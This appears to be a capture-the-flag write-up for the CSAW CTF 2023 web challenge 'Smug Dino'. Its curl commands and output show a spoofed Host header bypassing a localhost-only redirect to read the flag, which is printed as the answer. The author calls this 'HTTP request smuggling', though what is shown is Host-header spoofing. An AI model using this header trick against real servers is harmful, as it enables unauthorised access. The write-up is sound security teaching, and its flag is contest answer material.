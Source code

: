 ```yaml
---
title: "[CSAWCTF2023] Smug Dino"
date: "18 September 2023"
toc: false
images:
author: "KS"
origsrc: ""
category: "WEB"
tags:
  - WEB
  - CSAWCTF
  - 2023
---
```


This challenge was first solved by one of our member **Shen**. I only managed to solved after looking into the brief writeup provided by him. After understanding this challenge, I decided to solve this challenge with just `curl` command.

There is only a link given for this challenge. Since it is a web challenge, I started out by playing around with the web application.

```bash
curl -v http://web.csaw.io:3009/
* processing: http://web.csaw.io:3009/
*   Trying 44.218.164.132:3009...
* Connected to web.csaw.io (44.218.164.132) port 3009
> GET / HTTP/1.1
> Host: web.csaw.io:3009
> User-Agent: curl/8.2.1
> Accept: */*
>
< HTTP/1.1 200 OK
< Server: nginx/1.17.6
< Date: Sun, 17 Sep 2023 13:44:31 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 1952
< Connection: keep-alive
< X-Powered-By: Express
< ETag: W/"7a0-qKx6Ou+8z9np0jE0RYCSKOhMytk"
< Set-Cookie: connect.sid=s%3ADoXqd65AqDw7qnAuvYjr9ax9Yazp2PB7.BomOa3aonqfdU8lisF0Wwy3DLiJlNT2oPoc74zRquGQ; Path=/; HttpOnly
<
<!DOCTYPE html>
<html lang="en">

<head>
    <title>All about dinos :) </title>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.1.3/css/bootstrap.min.css" integrity="sha384-MCw98/SFnGE8fJT3GXwEOngsV7Zt27NXFoaoApmYm81iuXoPkFOJwJ8ERdknLPMO" crossorigin="anonymous">
    <link href="css/styles.css" rel="stylesheet">
    <link href="https://fonts.googleapis.com/css?family=Merriweather:400,700" rel="stylesheet" type="text/css">
</head>

<body>
    <nav class="navbar navbar-dark bg-dark navbar-static-top navbar-expand-md">
        <div class="container">
            <button type="button" class="navbar-toggler collapsed" data-toggle="collapse" data-target="#bs-example-navbar-collapse-1" aria-expanded="false"> <span class="sr-only">Toggle navigation</span>
            </button> <a class="navbar-brand" href="#">Smug Dino</a>
            <div class="collapse navbar-collapse" id="bs-example-navbar-collapse-1">
                <ul class="nav navbar-nav mr-auto">
                    <li class="active nav-item"><a href="/" class="nav-link">Home</a>
                    </li>
                    <li class="nav-item"><a href="/hint" class="nav-link">Hint</a>
                    </li>
                    <li class="nav-item"><a href="/flag" class="nav-link">Flag?</a>
                    </li>
                </ul>
            </div>
        </div>
    </nav>
    <div class="jumbotron">
        <div class="container">
            <h1>What's your favorite dinosuar?</h1>
            <h5>Ancient artifacts can teach us a lot -- just don't have them in your code!</h5>
            <div style="max-height:450px; max-width:450px; overflow: hidden">
                <img src="https://upload.wikimedia.org/wikipedia/commons/4/46/Lambeosaurus_magnicristatus_DB.jpg">
           </div>
            <br>
        </div>
    </div>
</body>
</html>
* Connection #0 to host web.csaw.io left intact
```

Based on the result, I noticed that there is a `href=/flag`. Since the web application is referring to flag page, I decided to look into it and hope that it is not a rabbit hole.

```bash
 curl -v http://web.csaw.io:3009/flag
* processing: http://web.csaw.io:3009/flag
*   Trying 44.218.164.132:3009...
* Connected to web.csaw.io (44.218.164.132) port 3009
> GET /flag HTTP/1.1
> Host: web.csaw.io:3009
> User-Agent: curl/8.2.1
> Accept: */*
>
< HTTP/1.1 302 Moved Temporarily
< Server: nginx/1.17.6
< Date: Mon, 18 Sep 2023 13:36:04 GMT
< Content-Type: text/html
< Content-Length: 145
< Connection: keep-alive
< Location: http://localhost:3009/flag.txt
<
<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
* Connection #0 to host web.csaw.io left intact
```

After looking into the flag page, I noticed that the status code is 302 which means that the flag page has been moved to another places. After investigating the header, I found something interesting which is `Location: http://localhost:3009/flag.txt`. Since the status code is 302 and the location is referring to localhost, I could just perform HTTP request smuggling by providing a custom header that mentioned that it is localhost.

```bash
curl -v http://web.csaw.io:3009/flag.txt -H 'Host:localhost:3009'
* processing: http://web.csaw.io:3009/flag.txt
*   Trying 44.218.164.132:3009...
* Connected to web.csaw.io (44.218.164.132) port 3009
> GET /flag.txt HTTP/1.1
> Host:localhost:3009
> User-Agent: curl/8.2.1
> Accept: */*
>
< HTTP/1.1 200 OK
< Server: nginx/1.17.6
< Date: Mon, 18 Sep 2023 13:40:17 GMT
< Content-Type: text/plain
< Content-Length: 29
< Connection: keep-alive
<
* Connection #0 to host web.csaw.io left intact
csawctf{d0nt_smuggl3_Fla6s_!}
```

### Flag

```
csawctf{d0nt_smuggl3_Fla6s_!}
```
